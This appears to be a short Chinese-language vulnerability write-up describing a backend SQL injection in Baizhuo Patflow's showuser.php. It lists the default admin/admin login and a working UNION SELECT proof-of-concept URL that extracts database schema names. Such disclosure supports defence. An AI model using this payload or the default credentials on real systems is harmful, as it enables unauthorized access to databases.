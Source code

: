 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

<a-checkbox checked>百卓 Patflow</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/image-20210718204721988.png)



默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```plain
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20from%20information_schema.SCHEMATA),23
```



![img](../../../.vuepress/public/img/image-20210723103203935.png)

